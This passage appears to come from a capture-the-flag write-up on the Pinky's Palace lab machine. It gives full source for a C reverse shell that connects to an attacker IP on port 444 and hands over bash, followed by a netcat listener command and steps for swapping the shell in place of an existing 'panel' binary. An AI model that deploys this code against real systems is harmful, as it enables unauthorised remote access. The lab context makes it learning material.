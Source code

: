 Again, I have no idea how this is triggered but perhaps if I replace it with a reverse shell I will get lucky again.

I could have used msfvenom to generate this reverse shell code, but I thought I would just create a simple C++ one as GCC is available on this machine. 
I based my reverse shell code on the following source: http://www.wryway.com/blog/creating-tcp-reverse-shell-shellcode/

```
demon@Pinkys-Palace:/daemon$ cat <<EOF >>/daemon/cshell.c
#include <stdio.h>
#include <strings.h>
#include <sys/socket.h>
#include <netinet/in.h>

#define ADDR "192.168.225.129"
#define PORT 444

int main(void) {

    // Create socket for outgoing connection 
    int conn_sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP); 

    // Populate server side connection information    
    struct sockaddr_in serv_addr;
    serv_addr.sin_family = AF_INET; // IPv4
    serv_addr.sin_addr.s_addr = inet_addr(ADDR); // IP address: localhost
    serv_addr.sin_port = htons(PORT);  // Port # 

    // Initiate connection
    connect(conn_sock, (struct sockaddr *) &serv_addr, 16);

    // Forward process's stdin, stdout and stderr to the incoming connection
    dup2(conn_sock,0);
    dup2(conn_sock,1);
    dup2(conn_sock,2);

    // Run shell
    execve("/bin/bash", NULL, NULL);
}
EOF
```

Now to launch the netcat listener on my kali box:
```
root@kali:~# nc -nlvp 444
listening on [any] 444 ...
```

And now for the Switch-a-roo:
```
demon@Pinkys-Palace:/daemon$ mv panel panel.bak
demon@Pinkys-Palace:/daemon$ mv cshell panel
demon@Pinkys-Palace:/daemon$ ls -la
drwxr-x---  2 demon demon  4096 Apr 22 13:24 .
drwxr-xr-x 25 root  root   4096 Mar 17 19:31 ..
-rw-r--r--  1 demon demon   816 Apr 22 13:22 cshell.c
-rwxr-xr-x  1 demon demon  8904 Apr 22 13:22 panel
-rwxr-x---  1 demon demon 13280 Mar 17 19:48 panel.bak
```
